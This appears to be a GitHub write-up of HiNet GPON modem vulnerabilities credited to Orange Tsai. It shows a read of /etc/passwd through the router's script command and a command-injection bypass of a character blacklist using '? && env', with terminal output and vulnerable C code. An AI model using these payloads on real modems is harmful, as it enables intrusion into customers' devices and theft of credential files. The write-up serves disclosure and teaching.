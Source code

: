 ## Covering HiNet GPON RCE from Orange Tsai
List of CVE :
* CVE-2019-13411
* CVE-2019-13412
* CVE-2019-15064
* CVE-2019-15065
* CVE-2019-15066

Btw orange just disclose the technique/walkthrough on CVE-2019-15065, CVE-2019-13411 and CVE-2019-13412!<br>
Rest of them i will try to explain with my little experience.<br>

### CVE-2019-15065 & CVE-2019-13412 (Arbitrary Read Files)
So basically there's a feature for execute shell script through files inside gpon machine. However if<br>
__the file is not__ a normal shell script, it will output the content with STDERR.
```bash
xxxx:xxx:xxx> misc script /etc/passwd
passwd> root:<redacted>:0:0:root:/root:/etc/init.d/login.sh
Invalid command.
passwd> support:<redacted>:0:0:root:/root:/etc/init.d/login.sh
Invalid command.
passwd> admin:x:0:0:root:/root:/etc/init.d/login.sh
Invalid command.
passwd> user:<redacted>:0:0:root:/root:/etc/init.d/login.sh
Invalid command.
passwd> ftp:*:95:95::/var/ftp:
Invalid command.
passwd> nobody:x:506:507:::
Invalid command.
passwd> sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
Invalid command.
xxxx:xxx:xxx> 
```

### HiNET GPON on port 3097 (Command Injection)
Like other modem/router device, there's shortcut command for spawn help menu/list with command "?".<br>
This is snippet line of code that provide function for command "?" :
```c
  char * BLACKLISTS = "|<>(){}`;" ;                     // <--- blacklist char prevent command injection
  char *input = util_trim(s1);                          // <--- our input
  if (input[0] == '\0' || input[0] == '#')          
      return 0;

  while (SUB_COMMAND_LIST[i] != 0) {
      sub_cmd = SUB_COMMAND_LIST[i++];
      if (strncmp(input, sub_cmd, strlen(sub_cmd)) == 0)
          break;
  }
  
  if (SUB_COMMAND_LIST[i] == 0 && strchr(input, '?') == 0)
      return -10;
      
  // ...<snip>...
  
  while (BLACKLISTS[i] != 0) {
      if (strchr(input, BLACKLISTS[i]) != 0) {
          util_fdprintf(fd, "invalid char '%c' in command\n", BLACKLISTS[i]);   // prompt if blacklist char exist!
          return -1;
      }
      i++;
  }
  
  snprintf(file_buf,  64, "/tmp/tmpfile.%d.%06ld", getpid(), random() % 1000000);
  snprintf(cmd_buf, 1024, "/usr/bin/diag %s > %s 2>/dev/null", input, file_buf);
  system(cmd_buf);
```
As you can see, our input after "?" got parsed if contains blacklist char. To bypass it we can use char "&" :p<br>
![alt text](https://devco.re/assets/img/blog/20191111/7.png "Bypass with &")
```bash
xxxx:xxx:xxx> ? && env       # bypass parser :v
active=1
SHLVL=8
HOME=/
OLDPWD=/
TERM=vt102
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/etc/init.d:/etc/bin
SHELL=/bin/sh
PWD=/tmp
```

### HiNET GPON on port 6998
<pre>p0c not free, just kidding :p</pre>
<br>

##### Credits & Thx for :
* [@OrangeTsai](https://devco.re/blog/2019/11/11/HiNet-GPON-Modem-RCE/)
